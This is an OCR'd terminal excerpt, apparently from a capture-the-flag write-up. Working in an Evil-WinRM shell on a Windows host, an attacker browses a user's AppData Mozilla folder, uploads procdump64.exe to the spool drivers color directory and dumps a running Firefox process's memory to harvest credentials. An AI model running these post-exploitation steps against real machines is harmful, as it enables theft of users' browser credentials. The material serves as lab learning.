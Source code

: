       
          Directory: C:\users\chase\appdata
      
      
      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      d-----       12/22/2021   7:13 PM                Local
      d-----        4/22/2019   8:01 AM                LocalLow
      d-----        4/22/2019   8:01 AM                Roaming
      
      
      *Evil-WinRM* PS C:\users\chase\appdata> cd roaming
      *Evil-WinRM* PS C:\users\chase\appdata\roaming> dir
      
      
          Directory: C:\users\chase\appdata\roaming
      
      
      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      d-----        4/22/2019   7:14 AM                Adobe
      d---s-        4/22/2019   7:14 AM                Microsoft
      d-----        4/22/2019   8:01 AM                Mozilla
      
      
      *Evil-WinRM* PS C:\users\chase\appdata\roaming> cd mozilla
      *Evil-WinRM* PS C:\users\chase\appdata\roaming\mozilla>
      
      And there were some Firefox processes running:
      
      *Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> upload procdump64.exe
      Info: Uploading procdump64.exe to C:\Windows\System32\spool\drivers\color\procdump64.exe
      Data: 535060 bytes of 535060 bytes copied
      Info: Upload successful!
      
      *Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> ps
      
      Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
      -------  ------    -----      -----     ------     --  -- -----------
          455      17     2284       5448               372   0 csrss
          290      13     1972       5056               488   1 csrss
          360      15     3560      14680              4788   1 ctfmon
          254      14     3956      13420              3472   0 dllhost
          166       9     1876       9748       0.03   5256   1 dllhost
          618      32    30116      56924               980   1 dwm
         1498      58    23776      79260              5068   1 explorer
          345      19    10256      37136       0.09    764   1 firefox
          401      34    33528      91896       1.59   4120   1 firefox – this is my current PID
          378      28    22712      59632       1.36   5472   1 firefox
         1072      70   149276     225208       6.64   6032   1 firefox
          355      25    16408      39060       0.14   6740   1 firefox
      
      *Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> .\procdump64.exe -accepteula -ma 4120
      
      ProcDump v10.11 - Sysinternals process dump utility
      Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
      Sysinternals - www.sysinternals.com
      
      [23:23:50] Dump 1 initiated: C:\Windows\System32\spool\drivers\color\firefox.exe_220127_232350.dmp
      [23:23:50] Dump 1 writing: Estimated dump file size is 338 MB.
      [23:23:51] Dump 1 complete: 338 MB written in 1.0 seconds
      [23:23:51] Dump count reached.
